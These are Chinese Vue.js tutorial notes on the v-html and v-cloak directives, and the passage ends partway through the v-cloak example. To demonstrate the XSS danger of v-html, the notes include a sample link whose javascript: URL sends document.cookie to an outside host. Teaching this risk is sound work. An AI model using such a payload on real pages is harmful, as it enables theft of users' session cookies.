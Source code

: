 

### 1.17.2. v-html

1. 作用：向指定节点中渲染包含html结构的内容。
2. 与插值语法的区别：
   - v-html会**替换掉节点中所有的内容**，{{xx}}则不会。
   - v-html可以**识别html结构**。
3. 严重注意：**v-html有安全性问题**！！！！
   - 在网站上动态渲染任意HTML是非常危险的，容易导致XSS攻击。
   - 一定要在可信的内容上使用v-html，永不要用在用户提交的内容上！

```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>v-html指令</title>
		<!-- 引入Vue -->
		<script type="text/javascript" src="../js/vue.js"></script>
	</head>
	<body>
		<!-- 准备好一个容器-->
		<div id="root">
			<div>你好，{{name}}</div>
			<div v-html="str"></div>
			<div v-html="str2"></div>
		</div>
	</body>
	<script type="text/javascript">
		Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。
		new Vue({
			el:'#root',
			data:{
				name:'尚硅谷',
				str:'<h3>你好啊！</h3>',
				str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
			}
		})
	</script>
</html>
```



### 1.17.3. v-cloak

1. v-cloak指令（**没有值**）
2. 本质是一个特殊属性，Vue实例**创建完毕并接管容器后**，会**删掉v-cloak属性**
3. **使用css配合v-cloak**可以解决网速慢时页面展示出{{xxx}}的问题

```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>v-cloak指令</title>
		<style>
			[v-cloak]{
				display:none;
			}
		</style>
		<!-- 引入Vue -->
	</head>
	<body>
		<!-- 准备好一个容器-->
```